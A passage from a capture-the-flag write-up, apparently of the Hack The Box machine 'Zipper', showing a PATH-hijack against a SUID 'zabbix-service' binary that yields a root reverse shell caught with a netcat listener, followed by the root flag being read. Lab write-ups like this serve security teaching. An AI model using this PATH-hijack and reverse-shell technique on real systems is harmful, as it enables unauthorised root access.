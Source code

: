 **We need to use /bin/cat instead of just cat because we'll remove /bin from the PATH env variable**

Next, we remove `/bin` from the PATH and add `/home/zapper/utils`:
```
zapper@zipper:~/utils$ echo $PATH
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
zapper@zipper:~/utils$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/home/zapper/utils
<cal/bin:/usr/sbin:/usr/bin:/sbin:/home/zapper/utils
```

Then we execute `zabbix-service` and it spawn a shell as root.
```
zapper@zipper:~/utils$ ./zabbix-service
./zabbix-service
start or stop?: start
start
/home/zapper/utils/systemctl: 3: /home/zapper/utils/systemctl: rm: not found
```

```
root@ragingunicorn:~/htb/zipper# nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.108] 60846
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare),1000(zapper)
# cat /root/root.txt
/bin/sh: 2: cat: not found
# /bin/cat /root/root.txt
a7c743<redacted>
#
```